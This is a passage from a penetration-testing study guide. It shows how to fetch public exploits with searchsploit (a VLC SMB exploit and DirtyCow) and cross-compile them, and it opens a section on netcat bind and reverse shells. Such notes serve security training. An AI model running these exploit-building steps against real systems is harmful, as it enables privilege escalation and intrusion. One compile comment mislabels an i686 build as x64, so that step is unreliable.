 ```bash
sudo apt install mingw-w64 gcc
sudo apt install gcc
```

#### Windows

* Download the VLC exploit or use `searchsploit`

```bash
searchsploit VideolAN VLC SMB
searchsploit -m 9303
```

* Compile the `C` exploit
  * check for comments in the code regarding the compilation commands

```bash
# Compile for x64
i686-w64-mingw32-gcc 9303.c -o exploit64

# Compile for x86 (32-bit)
i686-w64-mingw32-gcc 9303.c -o exploit32 -lws2_32
```

#### Linux

* Download the DirtyCow exploit or use `searchsploit`

```bash
searchsploit Dirty Cow
searchsploit -m 40839
```

* Compile the `C` exploit
  * check for comments in the code regarding the compilation commands to compile it successfully

```bash
# Compile with
gcc -pthread 40839.c -o dirty_exploit -lcrypt
```

Pre-compiled binaries, predominantly Windows and some Linux are readily avaliable in [Github Offensive Security ](https://gitlab.com/exploit-database/exploitdb-bin-sploits)


## Bind & Reverse [Shells](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells)

### [Netcat](broken-reference)

**`nc`** - a network utility used for a variety of tasks associated with TCP/UDP.

* **Client mode** - used for connection to any TCP/UDP port or to a listener
* **Server Mode** - used as a listener for connection from clients on a specific port

Functionalities:

* open TCP connections, listen on TCP or UDP ports
* Banner grabbing, Port scanning, Files transferring
* Bind/Reverse shells
* 📌 [Hacking with Netcat](https://www.hackingtutorials.org/networking/hacking-with-netcat-part-1-the-basics/)
